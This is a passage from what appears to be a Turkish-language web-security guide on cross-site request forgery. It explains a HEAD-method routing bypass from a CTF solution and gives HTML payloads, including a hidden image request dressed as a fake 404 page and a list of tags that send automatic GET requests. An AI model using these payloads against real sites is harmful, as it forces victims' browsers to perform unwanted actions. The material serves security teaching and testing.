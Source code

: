 ```html
document.forms[0].submit()
</script>
</body>
</html>
```
### **HEAD yöntemi atlatma**

[**Bu CTF yazısı**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) kısmında, **HEAD isteklerini GET istekleri olarak** yanıt gövdesi olmadan işlemek üzere ayarlanmış bir yönlendirici olan [Oak'ın kaynak kodu](https://github.com/oakserver/oak/blob/main/router.ts#L281) açıklanmaktadır - bu, Oak'a özgü olmayan yaygın bir geçici çözümdür. HEAD istekleriyle ilgilenen belirli bir işleyici yerine, bunlar basitçe **GET işleyicisine verilir, ancak uygulama yanıt gövdesini kaldırır**.

Bu nedenle, bir GET isteği sınırlıysa, **GET isteği olarak işlenecek bir HEAD isteği gönderebilirsiniz**.

## **Sömürü Örnekleri**

### **CSRF Token'ını Sızdırma**

Eğer bir **CSRF token'ı** **savunma** olarak kullanılıyorsa, bir [**XSS**](xss-cross-site-scripting/index.html#xss-stealing-csrf-tokens) açığını veya bir [**Dangling Markup**](dangling-markup-html-scriptless-injection/index.html) açığını kullanarak **sızdırmayı** deneyebilirsiniz.

### **HTML etiketleri kullanarak GET**
```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```
Diğer HTML5 etiketleri, otomatik olarak bir GET isteği göndermek için kullanılabilir:
```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="" />
<embed src="..." />
<audio src="...">
<video src="...">
<source src="..." type="..." />
<video poster="...">
<link rel="stylesheet" href="..." />
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
body {
background: url("...");
}
</style>
<bgsound src="...">
<track src="..." kind="subtitles" />
<input type="image" src="..." alt="Submit Button"
/></bgsound>
</body>
</object>
</video>
</video>
</audio>
```
### Form GET isteği
```html
<html>
```